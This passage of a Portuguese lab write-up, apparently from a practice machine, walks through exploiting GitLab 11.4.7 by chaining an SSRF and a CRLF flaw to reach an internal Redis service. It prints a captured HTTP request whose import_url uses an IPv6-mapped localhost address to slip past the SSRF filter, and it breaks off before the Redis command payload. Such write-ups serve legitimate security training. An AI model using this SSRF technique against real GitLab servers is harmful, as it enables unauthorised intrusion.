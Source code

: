     Vemos que a versão do GitLab é `11.4.7`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2016.png)
    
    Pesquisando no Google, vemos que exist um RCE neste codigo.
    
    Existem várias vulnerabilidades para o Gitlab, mas vamos nos concentrar em uma maneira de explorar uma combinação de vulnerabilidades SSRF (CVE-2018-19571) e CRLF (CVE-2018-19585). De acordo com o GitLab Security Release, ambas as vulnerabilidades estão ocorrendo nesta versão do GitLab. A vulnerabilidade SSRF está na versão específica do Redis. Vamos acionar SSRF importando um novo repositório por URL. Primeiro, criamos um novo projeto
    
    [https://github.com/jas502n/gitlab-SSRF-redis-RCE](https://github.com/jas502n/gitlab-SSRF-redis-RCE)
    
    Temos a ferramenta Burp já aberta e configurada para que nosso navegador da web possa encaminhar o tráfego para a porta 8080, na qual o Burp está ouvindo.
    
    Selecionamos "Importar projeto" e depois "Repositório por URL", conforme mostrado na imagem a seguir. Colocamos alguns valores aleatórios nos campos obrigatórios e, em seguida, enviamos a solicitação. Definimos os campos "URL do repositório Git", "Nome do projeto" e "Slug do projeto" como "test" e selecionamos "Criar projeto".
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2017.png)
    
    Escolhemos importar
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2018.png)
    
    Depois escolher a opção `RepobyURL`
    
    Intersectar o pedido com o `BurpSuite`
    
    No site on tem o RCE vemos que tem varias linhas de código que impedem comunicar com o localhost
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2019.png)
    
    ```
    POST /projects HTTP/1.1
    Host: 10.129.227.132:5080
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.227.132:5080/projects/new
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 412
    Origin: http://10.129.227.132:5080
    DNT: 1
    Connection: close
    Cookie: _gitlab_session=c3beb8a82d096bca38f1f54ca5213045; sidebar_collapsed=false; event_filter=all
    Upgrade-Insecure-Requests: 1
    Sec-GPC: 1
    
    utf8=%E2%9C%93&authenticity_token=35OyNcHtKzM6IEQ8qADc6NwcAm5Th396BH0Xgke5%2BrQ2Dba5pgVbDS2HO%2Fkh5eKAQqlc0f0pzHFqF%2B3RHCugIA%3D%3D&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A0.0.0.0%5D%3A6379%2Ffoo%2Ffoo.git%2Ftest%2Ftest.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=rce5&project%5Bnamespace_id%5D=6&project%5Bpath%5D=rce5&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
    ```
    